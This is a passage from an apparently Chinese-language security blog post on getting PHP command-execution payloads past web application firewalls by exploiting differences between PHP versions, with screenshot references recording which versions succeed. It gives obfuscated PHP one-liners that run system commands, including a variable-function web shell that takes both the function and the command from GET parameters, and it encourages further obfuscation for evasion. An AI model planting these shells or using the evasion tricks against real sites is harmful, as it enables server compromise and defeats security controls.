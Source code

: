     
     <?php\echo `whoami`;?>

  

####  **5.3 执行命令失败**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212801.png)

  

####  **7.3 执行命令失败**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212802.png)  

####  **5.2 成功执行**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212803.png)

  

##  **3、十六进制字符串**

在php7中不认为是数字，php5则依旧为数字，经过测试 5.3 和5.5可以成功执行命令，5.2和php7无法执行。

  *   *   *   * 

    
    
    <?php$s=substr("aabbccsystem","0x6");$s(whoami)?>

  

####  **7.3 命令执行失败**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212805.png)  

####  **5.2 命令执行失败**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212806.png)  

###  **5.3 命令执行成功**

![](https://gitee.com/fuli009/images/raw/master/public/20220416212807.png)  
除此之外，还有很多种利用版本差异性来bypass一些没有对所有版本进行检测更新的所谓的"先进waf"。  
当然，对于我们可以结合垃圾数据，变形混淆，以及大量特殊字符和注释的方式来构造更多的payload,毕竟每家的waf规则不同，配置也不同，与一些传输层面的bypass进行结合产生的可能性就会非常多样。  
 **例如：**

7.0版本的??特性，如果版本为5.x的话就会报错，可以结合一些其他的方式吧

  *   *   *   * 

    
    
    <?php$a = $_GET['function'] ?? 'whoami';$b = $_GET['cmd'] ?? 'whoami';$a(null.(null.$b));

  

 **0x02 jsp的免杀**
